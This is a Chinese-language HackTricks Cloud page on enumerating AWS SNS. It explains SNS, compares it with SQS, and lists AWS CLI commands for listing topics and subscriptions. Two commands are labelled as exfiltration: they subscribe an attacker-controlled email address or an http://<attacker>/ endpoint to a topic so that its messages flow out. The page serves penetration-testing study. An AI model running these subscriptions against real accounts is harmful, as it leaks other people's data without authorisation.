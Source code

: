 # AWS - SNS Enum

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## SNS

亚马逊简单通知服务（Amazon SNS）被描述为一个 **完全托管的消息服务**。它支持 **应用程序到应用程序**（A2A）和 **应用程序到个人**（A2P）通信类型。

A2A 通信的关键特性包括 **发布/订阅（pub/sub）机制**。这些机制引入了 **主题**，对于实现高吞吐量的 **推送式多对多消息传递**至关重要。此功能在涉及分布式系统、微服务和事件驱动的无服务器架构的场景中非常有利。通过利用这些主题，发布系统可以有效地将消息分发到 **广泛的订阅系统**，促进扇出消息模式。

### **与 SQS 的区别**

**SQS** 是一个 **基于队列** 的服务，允许点对点通信，确保消息由 **单个消费者** 处理。它提供 **至少一次交付**，支持标准和 FIFO 队列，并允许消息保留以进行重试和延迟处理。\
另一方面，**SNS** 是一个 **基于发布/订阅** 的服务，通过同时向 **多个订阅者** 广播消息来实现 **一对多** 通信。它支持 **各种订阅端点，如电子邮件、短信、Lambda 函数和 HTTP/HTTPS**，并提供针对性消息传递的过滤机制。\
虽然这两项服务都能实现分布式系统中组件之间的解耦，但 SQS 侧重于排队通信，而 SNS 强调事件驱动的扇出通信模式。

### **枚举**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
注意，如果**主题是FIFO类型**，则只能使用使用**SQS**协议的订阅者（不能使用HTTP或HTTPS）。

此外，即使`--topic-arn`包含区域，也请确保在**`--region`**中指定正确的区域，否则您将收到一个错误，表明您没有访问权限，但问题在于区域。
{% endhint %}

#### 未经身份验证的访问

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### 权限提升

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### 利用后

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### 持久性

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## 参考文献

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
学习和实践AWS黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践GCP黑客技术：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub库提交PR来分享黑客技巧。

</details>
{% endhint %}

